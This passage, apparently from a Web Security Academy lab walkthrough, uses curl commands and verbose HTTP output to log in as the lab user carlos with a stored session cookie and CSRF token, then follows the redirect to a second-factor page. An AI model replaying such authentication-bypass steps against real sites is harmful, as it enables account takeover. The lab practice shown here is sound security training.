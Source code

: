 >Also used the `-s` swithc to avoid curl output more data thand the response content.

The cookie will be stored in the `cookie_session` file:

```shell
$ cat cookie_session                                                                                                    # Netscape HTTP Cookie File                                                                                             # https://curl.haxx.se/docs/http-cookies.html                                                                           # This file was generated by libcurl! Edit at your own risk.                                                                                                                                                                                    #HttpOnly_0aa80033042384adc0fb6b5e000100c2.web-security-academy.net     FALSE   /       TRUE    0       session uZQ01Cw8VDIVw7hJ4afL1YnuAhvrdf3i 
```

Now I am gonna do the POST request to `/login` with `carlos:montoya` credentials and using the `session` cookie and the `csrf` value previously obtained in the GET request to `/login`.

Also I add some `curl` swiths :
- `-v` : Add verbosite to see headers in requests and responses
- `-L` : Allow readirections, because of when I test in the browser I notice the `302` redirection to `/login2` view.
- `-b` : Use the cookie stored in `cookie_session` file.
- `-c` : Save the new cookie ( `Set-Cookie`) if the server response has it.

```shell
	$ curl -v -L -b cookie_session -c cookie_session2 "https://0aa80033042384adc0fb6b5e000100c2.web-security-academy.net/login" --data-raw "csrf=tcBjFitPPsaYYbbO8OQtDvAxTdT2Bfen&username=carlos&password=montoya" 


...SNIP...
> POST /login HTTP/1.1                                                                                                  > Host: 0aa80033042384adc0fb6b5e000100c2.web-security-academy.net                                                       > User-Agent: curl/7.68.0                                                                                               > Accept: */*                                                                                                           > Cookie: session=uZQ01Cw8VDIVw7hJ4afL1YnuAhvrdf3i                                                                      > Content-Length: 70                                                                                                    > Content-Type: application/x-www-form-urlencoded   

...SNIP...

< HTTP/1.1 302 Found                                                                                                    < Location: /login2                                                                                                     * Replaced cookie session="vIPjaskNH2SkQY8apBbMeKPGSyzYHNTU" for domain 0aa80033042384adc0fb6b5e000100c2.web-security-academy.net, path /, expire 0                                                                                             < Set-Cookie: session=vIPjaskNH2SkQY8apBbMeKPGSyzYHNTU; Secure; HttpOnly; SameSite=None                                 < Connection: close                                                                                                     < Content-Length: 0                                                                                                     

...SNIP...

> GET /login2 HTTP/1.1                                                                                                  > Host: 0aa80033042384adc0fb6b5e000100c2.web-security-academy.net                                                       > User-Agent: curl/7.68.0                                                                                               > Accept: */*                                                                                                           > Cookie: session=vIPjaskNH2SkQY8apBbMeKPGSyzYHNTU 

...SNIP...

```